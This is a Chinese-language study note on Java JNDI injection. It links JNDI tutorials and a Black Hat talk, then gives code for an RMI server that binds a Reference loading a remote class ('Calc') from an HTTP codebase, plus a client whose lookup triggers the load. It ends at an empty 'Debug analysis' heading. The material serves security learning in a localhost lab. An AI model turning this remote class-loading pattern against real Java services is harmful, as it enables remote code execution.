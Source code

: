 主要看这篇，https://www.cnblogs.com/hollischuang/p/14260801.html





## JNDI

官方教程：https://docs.oracle.com/javase/jndi/tutorial/

教程简介：https://docs.oracle.com/javase/tutorial/jndi/index.html

简介书：https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf



### RMI协议

JNDIRMIServer：

```java
import javax.naming.InitialContext;
import javax.naming.Reference;

public class JNDIRMIServer {
    public static void main(String[] args) throws Exception{
        InitialContext initialContext = new InitialContext();
        // 方式一：直接绑定一个远程对象，底层使用原生的RMI方法，可以使用远程RMI攻击点去攻击
//        initialContext.rebind("rmi://localhost:1099/remoteObj", new RMIServerImpl());

        // 方式二：引用的方式进行绑定，称为传统的JNDI注入
        // 从远程服务器上面加载一个指定类，并将其绑定到RMI注册中心里面
        Reference refObj = new Reference("Calc", "Calc", "http://localhost:8000/");
        initialContext.rebind("rmi://localhost:1099/remoteObj", refObj);
    }
}
```



JNDIRMIClient：

```java
import javax.naming.InitialContext;

public class JDNIRMIClient {
    public static void main(String[] args) throws Exception{
        InitialContext initialContext = new InitialContext();
        // 从RMI注册中心读取一个已经绑定的对象，由于这里指定的协议是rmi，所以调用的方式为rmi
        RMIServer rmiServer = (RMIServer) initialContext.lookup("rmi://localhost:1099/remoteObj");
        System.out.println(rmiServer.sayHello("hello"));
    }
}
```



Debug分析：
